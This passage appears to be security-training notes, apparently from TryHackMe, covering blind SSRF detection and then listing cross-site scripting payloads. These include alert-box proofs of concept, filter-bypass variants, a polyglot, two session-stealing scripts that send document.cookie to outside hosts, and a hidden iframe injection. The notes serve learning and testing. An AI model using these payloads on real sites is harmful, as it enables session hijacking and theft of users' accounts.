     A partial URL such as just the hostname:

    ![](2022-02-12-01-20-09.png)

    Or perhaps only the path of the URL:

    ![](2022-02-12-01-21-47.png)

    If working with a blind SSRF where no output is reflected back to you, you'll need to use an external HTTP logging tool to monitor requests such as requestbin.com, your own HTTP server or Burp Suite's Collaborator client.

#### Cross Site Scripting

Based on JavaScript. an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users.

Demonstrate that you can achieve XSS on a website

```
<script>alert('XSS');</script>
```

```
"><script>alert('THM');</script>
```

```
</textarea><script>alert('THM');</script>
```

```
';alert('THM');//
```

```
<sscriptcript>alert('THM');</sscriptcript>
```

```
/images/cat.jpg" onload="alert('THM');
```

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

Session stealing

```
<script>new Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;</script>
```

```
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

Content Injection

```
<iframe src=http://172.16.0.1/thescriptkid.html height=”0” width=”0”></iframe>
```
